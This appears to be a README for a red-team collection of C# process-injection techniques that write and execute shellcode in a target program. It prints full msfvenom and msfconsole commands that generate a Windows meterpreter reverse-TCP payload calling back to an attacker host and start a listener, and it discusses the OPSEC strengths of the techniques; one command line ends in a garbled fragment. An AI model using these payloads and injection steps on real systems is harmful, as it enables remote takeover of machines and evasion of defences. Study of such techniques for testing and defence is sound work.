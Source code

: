 # Process Injection Intro

Proc injection to write shellcode bytes into a program and execute the shellcode. These techniques have a range of OPSEC strengths and weaknesses.

Pull these `.cs` files into a Visual Studio solution and build in order to use them.

For all of these techniques, we will use a meterpreter payload hosted on a webserver:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.1.128 LPORT=4444 -f raw > shellcode.bin

┌──(kali㉿kali)-[~/Desktop]
└─$ ip -br -c a
lo               UNKNOWN        127.0.0.1/8 ::1/128 
eth0             UP             10.10.1.128/24 fe80::20c:29ff:fede:1765/64
```

Host on python server and start msfconsole:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ msfconsole -x "use multi/handler;set payload windows/x64/meterpreter_reverse_tcp; set LHOST 10.10.1.128; set LPORT 4444; run"an use this or Vanara:
```

Each of these techniques make use of a `Win32.cs` class file that import the types, delegates, and structs needed to call the Win32 API directly. All relevant code for performing the injection itself will be in the main class file within each notebook (i.e. `CreateThread.cs`). You can use them or another P/Invoke method (I recommend Vanara)

[https://github.com/dahall/Vanara](https://github.com/dahall/Vanara)